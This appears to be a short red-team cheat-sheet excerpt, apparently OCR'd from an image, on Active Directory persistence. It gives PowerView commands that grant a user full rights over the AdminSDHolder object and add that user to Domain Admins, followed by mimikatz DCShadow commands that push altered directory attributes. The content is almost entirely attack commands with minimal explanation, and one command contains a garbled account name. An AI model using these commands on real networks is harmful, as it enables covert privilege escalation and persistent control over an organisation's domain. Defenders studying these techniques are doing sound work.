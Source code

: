 ### AdminSDHolder Persistence
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistence
DCShadow is a persistence technique which is  allowing an attacker to push malicious changes into the environment by modifying active directory objects.domain privileges is requiredto carry out this attack
```
lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
